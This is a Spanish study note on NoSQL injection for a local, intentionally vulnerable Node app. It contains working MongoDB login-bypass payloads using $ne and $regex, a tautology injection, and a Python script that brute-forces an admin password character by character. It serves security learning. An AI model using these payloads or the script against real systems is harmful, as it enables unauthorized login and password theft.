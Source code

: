 # Inyecciones NoSQL

Tags: #NoSQLI #OWASP #Explotacion #MongoSQLI 

Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

A continuación, se proporciona el enlace al proyecto de Github que nos descargamos para poner en práctica esta vulnerabilidad:

-   **Vulnerable-Node-App**: [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app)


## Inyecciones 

En esta pagina podemos encontrar ejemplos de inyecciones NoSQL
* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Podemos interceptar las peticiones en **BurpSuite y ahi inyectar los NoSQLI**. Esto lo prodriamos hacer en el **Repeater**.
* Peticion por **POST**
* Debemos tramitar la data en **Json**
* Debemos de tener en **Content Type: application/json**, ya que si no, no nos va a servir.

```bash
{                                    # Peticion original interceptada en BurpSuite 
	"username":"admin",
	"password":"admin"
}
```


* Iniciando la inyeccion NoSQL
```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd
	"username":"admin",
	"password":{
		"$ne":"admin"
	}
}
```
Aquí le diremos que la passwd no es igual a 'admin', por lo que es una afirmación correcta y entrara al login.

```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd y el usuario
	"username":{
		"$ne":"omar"
	},
	"password":{
		"$ne":"admin"
	}
}
```
En esta ocasión le diremos que el usuario no es 'omar' y la passwd no es 'admin', por lo que es una afirmación correcta y entrara al login.


* Tambien podemos aplicar **Regex = Expresiones Regulares**
```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), con la passwd correcta
 	"username":{
		"$regex":"^a"
	},
	"password":"admin"
}
```

```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), y diciendo que la passwd no es admin
 	"username":{
		"$regex":"^a"
	},
	"password":{
		"$ne":"admin"
	}
}
```

Para saber la longitud
```bash
{                                    # Para saber la longitud de caracteres, la cual si es menor o igual a la original la tomara como correcta pero si se pasa sera error
	"username":"admin",
	"password":{
		"$regex":".{24}"
	}
}
```


Podríamos aplicar Fuerza Bruta con las Regex para ir probando carácter por carácter y así ir descubriendo la passwd de algún usuario especifico que exista.
```python 
❯ nvim NoSQL.py

	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:4000/user/login"
	characters = string.ascii_lowercase + string.ascii_uppercase + string.digits           # Probariamos de la a-z A-Z y los numeros

	def makeNoSQLI():
		password = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Password")
		
		for position in range(0, 100):               #Podemos cancelar el bucle cuando ya haya terminado de descifrar la passwd y no esperar a las 100 evaluaciones
			for character in characters:
				post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password, character)
				p1.status(post_data)
				headers = {'Content-Type': 'application/json'}
				r = requests.post(main_url, headers=headers, data=post_data)
				if "Logged in as user" in r.text:
					password += character
					p2.status(password)
					break 
					
	if __name__ == '__main__':
	makeNoSQLI()
```


## Mongo SQLI

* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* HackTricks: [Hacktricks-Mongo-NoSQLI](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo)

Algunas inyecciones para MongoDB
```bash
❯ ' || '1'='1                                       # La mas sencilla, con la cuarta comilla estamnos cerrando la inyeccion
```
